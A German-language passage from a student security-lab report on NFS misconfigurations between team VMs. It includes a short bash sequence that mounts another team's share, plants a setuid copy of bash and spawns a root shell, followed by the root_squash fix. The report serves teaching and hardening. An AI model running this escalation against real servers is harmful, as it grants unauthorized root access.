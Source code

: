     ```

**Lösung:**
Einrichten von Berechtigungen und Authentifizierung für NFS shares aber das ist nicht wirklich der Sinn der NFS aufgabe gewesen da Aufgabe zwei SMB shares waren die genau dieses Problem löst. Folglich ist die deutlich einfachere/bessere lösung einfach SMB shares zu verwenden und NFS zu deaktivieren.

**Wirksamkeit:**
Die Methode ist sehr effektiv um die Sicherheitslücken von NFS zu demonstrieren und zu zeigen wie einfach es ist auf die Dateien zuzugreifen.

#### 1.4 nfs Privilege Escalation

Dieser Angriff ist unserer Meinung nach einer der gefährlichste Angriff in diesen Netzwerksetup da hier ein Angreifer der Zugriff auf einen NFS share hat root rechte auf dem Server erlangen kann.

**Eigene VMs:**
hier zum glück kein Problem da dies leicht mit der option `root_squash` beim einrichten des Fileshares verhindert werden kann bzw ist sogar standardmäßig aktiviert.

**Andere VMs:**
Hier ist uns zunächst aufgefallen das die meisten Teams ihren Fileserver zu diesen Zeitpunkt nicht von anderen Team-Netzwerken (wie verlangt im Aufgabenblatt) erreichbar gemacht haben. Nur bei Team 05 und 10 war es uns möglich überhaupt auf den Fileserver zuzugreifen. Bei Team 05 war es uns möglich auf den Fileserver zuzugreifen und die Dateien zu lesen aber nicht als root zu schreiben da hier die gennante Option aktiviert war. Bei Team 10 war die Sicherheitslücke offen und wurde wie folgt ausgenutzt:

```bash
mkdir -p /mnt/nfs
mount -t nfs 192.168.5.7:/export /mnt/nfs -o nolock
ls -la /mnt/nfs
# -> überprüfe welche UUID auf /export/atten zugriff hat
# find /mnt/nfs -writable
cd /mnt/nfs/atten # in ordner mit schreibrechten
cp $(which bash) .
ls -la    # -> testen welcher nutzer bash owned -> bei no_root_squash wird es leider nur nobody sein
chmod +s bash # -> setuid bit setzen -> bei ausführung rechte des owners -> root
./bash -p # -> root shell (erkennbar an `#` statt `$`)
```

Hier nach als atten auf einer beliebiegen VM des Teams 10 eingeloggt und `./bash -p` ausgeführt werden und man hat root rechte.

**Lösung:**
Die Lösung ist hier die Option `root_squash` zu aktivieren. Das bedeutet, dass der root-Benutzer auf dem Client als niemand (nobody) auf dem Server behandelt wird, wodurch keine bash datei mit root rechten erstellt werden kann.

**Wirksamkeit:**
Die Methode ist sehr effektiv um die Problemantik falsch konfigurierter NFS Shares zu demonstrieren und zu zeigen wie einfach es ist dadurch auf allen VMs root rechte zu erlangen.

### 2. lokale Exploits
